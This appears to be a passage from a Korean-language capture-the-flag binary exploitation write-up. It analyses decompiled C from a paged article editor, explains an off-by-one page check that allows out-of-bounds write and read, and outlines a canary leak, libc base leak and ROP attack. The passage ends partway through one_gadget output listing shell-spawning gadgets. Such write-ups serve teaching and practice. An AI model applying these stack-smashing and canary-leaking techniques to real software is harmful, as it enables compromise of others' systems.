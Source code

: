 ``` c
rintf("Page number: ");
__isoc99_scanf(&%u,&pagenum);
if (4 < pagenum) { // pagenum = 4가 되면, 256(64*4)위치에서 64byte 더 덮어쓸 수 있음 -> BOF
  puts("[ERROR] Only [0~3] page is available");
          /* WARNING: Subroutine does not return */
  exit(-1);
}
printf("Edit size: ");
__isoc99_scanf(&%u,&edit_size);
if (0x40 < edit_size) {
  puts("[ERROR] Too large");
          /* WARNING: Subroutine does not return */
  exit(-1);
}
printf("Write content : ");
buf_page = buf + (pagenum << 6); // pagenum * 64 = 각 페이지 크기 64byte
read(0,buf_page,0x40);
```
원래 의도를 유추해보면 최대 3페이지까지 선택이 가능하지만, 코딩 과정에서 실수로 인해서 인지 최대 4페이지까지 작성 가능한 상태다. `buf`의 크기는 264(0x108)인 반면, 4번째 페이지부터 0x40만큼 작성하면 총 0x38 크기 만큼 `buf`의 상위 주소를 덮어쓸 수 있다.  
### OOB(Out of Bounds) - read
``` c
if (menu_var != 2) goto LAB_0010162b;
      if (added == 0) {
        puts("Write a article first");
      }
      else {
        printf("Content: %s\n",buf);
      }
```
1번 기능으로 우선 `buf`를 0x100만큼 채운 후, 첫 번째 `OOB-write` 취약점을 이용하여 canary의 NULL-byte까지 덮어쓰면, canary 및 rbp, ra 등 `buf`보다 상위 주소의 데이터를 읽어올 수 있다.  
## Exploit
### Strategy
Full RELRO가 활성화 되어있어 got를 덮어쓸 수 없다. 따라서 현재 존재하는 `OOB` 취약점을 이용하여 ROP 공격을 시도해야 한다. 그러나 `OOB`로 상위 데이터를 덮어쓸 때, ROP 공격에 유의미하게 활용할 수 있는 최대 크기는 겨우 32(0x20)byte 뿐이므로, `one_gadget`을 활용하면 충분히 공격이 가능해 보인다. 공격 과정은 다음과 같다.  
1. canary leak: `buf`를 다 채운 후, `OOB-write` 취약점을 이용하여 NULL-byte까지 덮어쓰고 `OOB-read` 취약점을 이용하여 카나리 값을 leak 한다.
2. libc_base lead: `libc_start_main`을 이용하여 libc base 주소를 leak한다.
3. one_gadget과 ROPgadget을 이용하여 ROP 공격을 한다.
### Exploitation Steps
``` sh
$ one_gadget ./libc.so.6
0x583ec posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x583f3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17301e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xef4ce execve("/bin/sh", rbp-0x50, r12)
constraints:
```